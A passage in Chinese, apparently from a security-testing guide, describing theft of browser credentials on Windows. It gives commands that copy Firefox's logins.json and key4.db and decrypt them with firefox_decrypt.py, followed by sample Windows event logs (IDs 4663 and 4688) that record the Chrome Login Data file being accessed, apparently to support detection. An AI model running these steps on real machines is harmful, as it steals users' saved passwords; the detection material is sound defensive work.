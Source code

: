 2. **复制文件**：
   ```cmd
   copy "%APPDATA%\Mozilla\Firefox\Profiles\*.default-release\logins.json" C:\Temp\
   copy "%APPDATA%\Mozilla\Firefox\Profiles\*.default-release\key4.db" C:\Temp\
   ```

3. **解密凭据**：
   在Kali上运行：
   ```bash
   python3 firefox_decrypt.py -d /mnt/c/Temp
   ```

4. **结果分析**：
   - 成功：提取Firefox保存的凭据。
   - 失败可能：未保存凭据或解密工具失效。

## 测试留痕

### Windows安全日志
- 事件ID4663：
  ```
  试图访问对象。

  主题:
    安全ID: TEST\user1
    帐户名: user1
    帐户域: TEST
    登录ID: 0x7169C

  对象:
    对象服务器: Security
    对象类型: File
    对象名称: C:\Users\user1\AppData\Local\Google\Chrome\User Data\Default\Login Data
    句柄ID: 0x1a4

  访问请求信息:
    访问: ReadData
  ```
- 事件ID4688：
  ```
  已创建新进程。

  创建者主题:
    安全ID: TEST\user1
    帐户名: user1
    帐户域: TEST
    登录ID: 0x7169C

  进程信息:
    新进程ID: 0xd3c
    新进程名称: C:\Windows\System32\cmd.exe
    令牌提升类型: %%1936
    强制性标签: Mandatory Label\Medium Mandatory Level
    创建者进程ID: 0x15d0
    创建者进程名称: C:\Windows\explorer.exe
    进程命令行: cmd.exe /c copy "C:\Users\user1\AppData\Local\Google\Chrome\User Data\Default\Login Data"...
  ```
